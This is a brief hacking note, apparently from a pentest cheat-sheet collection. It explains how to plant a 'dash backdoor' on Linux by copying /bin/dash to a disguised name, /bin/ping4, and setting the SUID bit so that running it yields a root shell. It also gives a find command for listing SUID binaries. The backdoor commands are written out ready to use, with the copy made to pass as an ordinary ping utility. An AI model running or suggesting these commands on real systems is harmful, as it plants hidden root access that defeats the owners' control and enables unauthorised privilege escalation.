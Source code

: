 # dash Backdoor

If you run a program which has the SUID bit set, then you have the rights of the user owning that file. That can be useful for ping or passwd, but probably isn’t for a shell. That’s why you can’t set the SUID bit on the bash. The “dash”, however, allows that

```
sudo cp /bin/dash /bin/ping4 && sudo chmod u+s /bin/ping4
```

To find SUID binaries:

&#x20;`find / ( -perm -4000 -o -perm -2000 ) -type f -exec ls -la {} ;`

You’ll get a rootshell by simply executing ping4.

